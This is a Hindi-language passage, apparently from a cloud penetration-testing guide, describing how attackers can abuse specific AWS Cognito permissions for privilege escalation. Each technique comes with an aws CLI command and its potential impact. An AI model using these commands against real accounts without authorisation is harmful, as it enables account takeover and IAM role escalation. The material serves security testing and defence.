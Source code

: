 इस अनुमति का दुरुपयोग करके **बेसिक प्रमाणीकरण को स्वीकृत करने** की भी संभावना है:
```bash
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
--allow-unauthenticated-identities
--allow-classic-flow
```
**संभावित प्रभाव**: पहचानी गई IAM भूमिका को क्षति पहुंचाना।

### `cognito-idp:AdminAddUserToGroup`

यह अनुमति **एक Cognito उपयोगकर्ता को एक Cognito समूह में जोड़ने** की अनुमति देती है, इसलिए एक हमलावर इस अनुमति का दुरुपयोग करके अपने नियंत्रण में एक उपयोगकर्ता को अन्य समूहों में जोड़ सकता है जिसमें **बेहतर** विशेषाधिकार या **विभिन्न IAM भूमिकाएँ** हो सकती हैं:
```bash
aws cognito-idp admin-add-user-to-group \
--user-pool-id <value> \
--username <value> \
--group-name <value>
```
**संभावित प्रभाव:** अन्य कोग्निटो समूहों और उपयोगकर्ता पूल समूहों से जुड़े IAM भूमिकाओं में वृद्धि।

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

इन अनुमतियों के साथ एक हमलावर **समूह बना सकता/अपडेट कर सकता है** जिसमें **हर IAM भूमिका हो सकती है जो एक कंप्रोमाइज़्ड कोग्निटो पहचान प्रदाता द्वारा उपयोग की जा सकती है** और एक कंप्रोमाइज़्ड उपयोगकर्ता को समूह का हिस्सा बना सकता है, जिससे वह सभी उन भूमिकाओं तक पहुंच सकता है:
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
{% endcode %}

**संभावित प्रभाव:** अन्य Cognito IAM भूमिकाओं में वृद्धि।

### `cognito-idp:AdminConfirmSignUp`

यह अनुमति **साइनअप की पुष्टि** करने की अनुमति देती है। डिफ़ॉल्ट रूप से कोई भी Cognito एप्लिकेशन में साइन इन कर सकता है, अगर यह छोड़ दिया जाता है, तो एक उपयोगकर्ता किसी भी डेटा के साथ खाता बना सकता है और इस अनुमति की मदद से इसे सत्यापित कर सकता है।
```bash
aws cognito-idp admin-confirm-sign-up \
--user-pool-id <value> \
--username <value>
```
**संभावित प्रभाव:** यदि आप एक नए उपयोगकर्ता को रजिस्टर कर सकते हैं, तो प्रमाणीकृत उपयोगकर्ताओं के लिए पहचान पूल IAM भूमिका में अप्रत्यक्ष प्रिवेस्क। किसी भी खाते की पुष्टि करने की क्षमता के साथ अन्य ऐप कार्यों में अप्रत्यक्ष प्रिवेस्क।

### `cognito-idp:AdminCreateUser`

यह अनुमति एक हमलावार को उपयोगकर्ता पूल के अंदर एक नए उपयोगकर्ता बनाने की अनुमति देगी। नया उपयोगकर्ता सक्षम रूप से बनाया जाता है, लेकिन इसे अपना पासवर्ड बदलना होगा।
```bash
aws cognito-idp admin-create-user \
--user-pool-id <value> \
--username <value> \
[--user-attributes <value>] ([Name=email,Value=email@gmail.com])
[--validation-data <value>]
[--temporary-password <value>]
```
**संभावित प्रभाव:** प्रमाणीकृत उपयोगकर्ताओं के लिए पहुंच आईडेंटिटी पूल IAM भूमिका में सीधा प्राधिकरण उन्नयन। किसी भी उपयोगकर्ता को बनाने में सक्षम होने के कारण अन्य ऐप कार्यक्षमताओं के लिए अप्रत्यक्ष प्राधिकरण उन्नयन।
